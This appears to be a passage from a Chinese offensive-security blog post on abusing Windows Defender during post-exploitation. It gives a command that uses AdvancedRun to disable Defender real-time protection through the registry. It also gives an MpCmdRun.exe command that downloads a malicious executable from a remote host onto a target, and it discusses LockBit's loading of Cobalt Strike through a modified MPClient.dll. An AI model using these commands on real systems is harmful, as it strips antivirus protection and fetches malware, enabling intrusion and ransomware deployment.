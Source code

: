 或者使用命令行

    
    
    AdvancedRun.exe /EXEFilename "%windir%\system32\cmd.exe" /CommandLine '/c reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows Defender\Real-Time Protection" /v "DisableRealtimeMonitoring" /d 1 /t REG_DWORD /f' /RunAs 8 /Run

## 补充2：MpCmdRun.exe利用

### MpCmdRun恶意文件下载

Windows
Defender自带的命令执行工具"MpCmdRun.exe"可以用来实现远程下载恶意文件的目的，但是免杀好像还是不太可靠，不过我们可以在cmd中关闭Windows
Defender，所以这样一来，一结合就变得有意思多了，不管在使用该思路的过程中还需要权限提升，但是CS因为在后渗透测试中有很好的辅助功能，所以总体来说还是划算的~
PS：经过实验发现在新版本中下载任何文件Windows
defender都会报毒并隔离（下图），若尝试关闭实时保护则mpcmdrun不可用。。。不过老版本defender还是可以的。在目标主机上使用Windows
Defender自带的MpCmdRun.exe程序下载恶意文件

    
    
    MpCmdRun.exe -DownloadFile -url http://*.*.*.*:81/co.exe -path c:\co.exe

![](https://gitee.com/fuli009/images/raw/master/public/20230223090407.png)

### MpCmdRun.exe解密和加载Cobalt Strike攻击载荷

这篇文章是7月底发布的，还算比较新（在我10月份写这篇文章的时候）。https://www.bleepingcomputer.com/news/security/lockbit-
ransomware-abuses-windows-defender-to-load-cobalt-strike/
一开始还以为是生成含有恶意载荷的dll文件替为MPClient.dll后就可以执行，结果在自己机器上尝试了一下根本不能上线，仔细看了看（谷歌翻译后）才明白大意是攻击者通过MpCmdRun.exe
加载修改后的MPClient.dll执行c0000015.log进而实现上线Cobalt
Strike，当然这就触及到我的知识盲区了，感兴趣的铁子可以继续研究一下（教教我）。

![](https://gitee.com/fuli009/images/raw/master/public/20230223090410.png)

## 参考文章

https://3gstudent.github.io/%E6%B8%97%E9%80%8F%E5%9F%BA%E7%A1%80-Windows-
Defender

![](https://gitee.com/fuli009/images/raw/master/public/20230223090411.png)

E

N

D

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

